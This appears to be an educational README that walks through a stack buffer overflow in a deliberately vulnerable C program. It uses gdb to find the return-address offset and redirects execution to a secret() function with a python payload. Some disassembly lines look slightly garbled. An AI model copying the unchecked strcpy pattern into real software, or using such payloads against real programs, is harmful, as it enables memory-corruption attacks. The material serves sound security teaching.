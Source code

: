# bof

<strong>Buffer overflow</strong> is one of the most common software vulnerability. It happens when we write more data that should be stored in a buffer. 

<p>Let's see one example about it:</p>

```
#include <stdio.h>
#include <string.h>

void secret() {
    printf("You shouldnt be here\n");
}

void function(const char* input) {
    char data[10];
    
    strcpy(data, input);
    
    if (!strcmp(data, "something")) { // " " -> any value until 10 bytes
        printf("normal stuff\n");
    } else {
        printf("Try again\n");
    } 
}

int main (int argc, const char* argv[]) {

    if (argc > 1) {
        function(argv[1]);
    } else {
        printf("You need at least one argument\n");
    }
    
    return 0; 
}
```

<p>There is a problem here: <strong>strcpy</strong>. This function copies the input to destination without having control of the amount, in other words, we can save more than 10 bytes and it will be ok, because the function doesn't check if it matches with the array's total bytes.</p>

<p>Running the code:</p>

```
gcc -m32 overflow.c -o overflow 
./overflow AAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>The result is:</p>

```
Try again. 
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

<p>There are several reasons that compilation is aborted, but in this case it may be because we are accessing an invalid memory address (unmapped memory).</p>

<p>Then I write it:</p>

```
gcc -m32 overflow.c -o overflow -fno-stack-protector
./overflow AAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>The new result is:</p>

```
Try again.
Segmentation fault (core dumped)
```

<p>I put:</p>

```
gdb overflow
```

<p>Now I can command stuffs to gdb </p>

```
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>I receive:</p>

```
Starting program: /.../ AAAAAAAAAAAAAAAAAAAAAAAAA
Try Again

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

<p>So I would like to see registers info</p>

```
(gdb) info registers
```

```
eax         0xa      10
ecx         0x56558160      1448444256
edx         0xf7fb7890      -134514544
ebx         0x41414141      1094795585
esp         0xffffd100      0xffffd100
ebp         0x41414141      0x41414141
esi         0xf7fb6000      -134520832
edi         0x0      0      
eip         0x41414141      0x41414141
eflags      0x10282  [ SF UF RF ]
cs          0x23     35
ss          0x2b     43
ds          0x2b     43
es          0x2b     43
fs          0x0      0
gs          0x63     99
```

<p>If I  write it (in below) to get more info about the main function:</p>

```
(gdb) disas main
``` 

<p>I have this result:</p>

``` 
Dump of assembler code for function main:
   0x56555612 <+0>:     lea     0x4(%esp),%ecx
   0x56555616 <+4>:     and     $0xfffffff0,%esp
   0x56555619 <+7>:     pushl   -0x4(%ecx)
   0x5655561c <+10>:    push    %ebp
   0x5655561d <+11>:    mov     %esp,%ebp
   0x5655561f <+13>:    push    %ebx
   0x56555620 <+14>:    push    %ecx
   0x56555621 <+15>:    call    0x5655566b <__x86.get_pc_thunk.ax>
   0x56555626 <+20>:    add     $0x19aa,%eax
   0x5655562b <+25>:    mov     %ecx,%edx
   0x5655562d <+27>:    cmpl    $0x1,(%edx)
   0x56555630 <+30>:    jle     0x56555648 <main+54>
   0x56555632 <+32>:    mov     0x4(%edx),%eax
   0x56555635 <+35>:    add     $0x4,%eax
   0x56555638 <+38>:    mov     (%eax),%eax
   0x5655563a <+40>:    sub     $0x,%esp
   0x5655563d <+43>:    push    %eax
   0x5655563e <+44>:    call    0x565555a8 <function>
   0x56555643 <+49>:    add     $0x10,%esp
   0x56555646 <+52>:    jmp     0x5655565c <main+74>
---Type <return> to continue, or q <return> to quit
   0x56555648 <+54>:    sub     $0xc,%esp
   0x5655564b <+57>:    lea     -0x18a8(%eax),%edx
   0x56555651 <+63>:    push    %edx
   0x56555652 <+64>:    mov     %eax, %ebx
   0x56555654 <+66>:    call    0x56555410 <puts@plt>
   0x56555659 <+71>:    add     $0x10,%esp
   0x5655565c <+74>:    mov     $0x0,%eax
   0x56555661 <+79>:    lea     -0x8(%ebp),%esp
   0x56555664 <+82>:    pop     %ecx
   0x56555665 <+83>:    pop     %ebx
   0x56555666 <+84>:    pop     %ebp
   0x56555667 <+85>:    lea     -0x4(%ecx),%esp
   0x5655566a <+88>:    ret
End of assembler dump.
``` 

<p>As we see, the main funcion calls the function called "function" in +44.</p>

<p>When we execute the CALL instruction to perform the function call, the instruction pointer (eip) of the next instruction will be stored in the stack. Then we change the address to the function address and execute the function. Also, we need to save the address in the stack to know where to go back.</p>

<p>Now we know why the eip has the value 0x41414141,it's because we overwrite the return address on the stack when the function ends. It takes the address from the stack and puts it in the eip, so the processor will execute the instructions from this area, but it's an unmapped region, in other words, segmentation fault occurs.</p>

<p>We're going to explore more about it:</p>

``` 
disas secret
``` 

``` 
Dump of assembler code for function secret:
   0x5655557d <+0>:     push    %ebp
   0x5655557e <+1>:     mov     %ebp,%esp
   0x56555580 <+3>:     push    %ebx
   0x56555581 <+4>:     sub     $esp,%0x4
   0x56555584 <+7>:     call    0x5655566b <__x86.get_pc_thunk.ax>
   0x56555589 <+12>:    add     $0x1a47,%eax
   0x5655558e <+17>:    sub     $0xc,%esp
   0x56555591 <+20>:    lea     -0x18e0(%eax),%edx
   0x56555597 <+26>:    push    %edx
   0x56555598 <+27>:    mov     %eax,%ebx
   0x5655559a <+29>:    call    0x56555410 <puts@plt>
   0x5655559f <+34>:    add     $0x10,%esp
   0x565555a2 <+37>:    nop
   0x565555a3 <+38>:    mov     -0x4(%ebp),%ebx
   0x565555a6 <+41>:    leave
   0x565555a7 <+42>:    ret
End of assembler dump.
``` 

<p>The secret adress is <strong>0x5655557d +0</strong>. How I know this? Just because it is the first instruction on the function. In addition, if I do more tests like using AAAAAAAAAAAAAAAAAAAAAABBBB, the eip changes to 0x42424242. So after 22 bytes (22 times A) we have the saved value of the return function, so let's put 0x5655557d on it.</p>

```
(gdb) run $(python -c 'print "A" * 22 + "\x7d\x55\x55\x56"')
``` 

``` 
Try again.
You shouldnt be here

Program received signal SIGSEGV, Segmentation fault.
0xffffd300 in ?? ()
``` 